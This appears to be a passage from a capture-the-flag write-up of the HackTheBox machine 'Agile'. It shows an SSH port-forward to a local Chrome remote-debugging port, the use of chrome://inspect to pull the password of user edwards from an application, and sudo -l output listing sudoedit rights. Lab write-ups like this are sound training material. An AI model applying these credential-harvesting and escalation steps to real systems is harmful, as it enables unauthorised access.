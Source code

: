 We found the password of user `corum:5db7caa1d13cc37c9fc2` for the machine `agile` and read `user.txt`

### root.txt

#### 1. user `edwards`

After looking around a bit, I found a strange-looking port 41829:

```bash
corum@agile:~$ ss -tln
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
LISTEN 0      5          127.0.0.1:43263      0.0.0.0:*          
LISTEN 0      70         127.0.0.1:33060      0.0.0.0:*          
LISTEN 0      10         127.0.0.1:41829      0.0.0.0:*          
LISTEN 0      2048       127.0.0.1:5000       0.0.0.0:*          
LISTEN 0      151        127.0.0.1:3306       0.0.0.0:*          
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
LISTEN 0      2048       127.0.0.1:5555       0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
LISTEN 0      5              [::1]:43263         [::]:*          
LISTEN 0      128             [::]:22            [::]:*       
```

With Linpeas, I knew it was a remote-debugging port of google chrome, and it can lead to a PE. It's a local host so we need to tunnel it, I will use SSH this time since we have the credential of `corum`, alternatively we can use [chisel](https://github.com/jpillora/chisel).

```bash
ssh -L 8000:127.0.0.1:41829 corum@10.10.11.203
```

Now all traffic to port 8000 on my attacking machine will be forwarded to port 41829 of the Agile machine. We need `chromium` to continue.

At `chrome://inspect/?search=discover#devices`, add our port 8000 to the `network targets`

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_port8000.png)

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_remote.png)

It was detected as SuperPassword application. Now we can `inspect` it and get the password of `edwards`

![](/home/meta9/thng01.github.io/assets/CTFs/HackTheBox/agile_edwards.png)

The user `edwards` can use sudo as `dev_admin`:

```
edwards@agile:~$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```
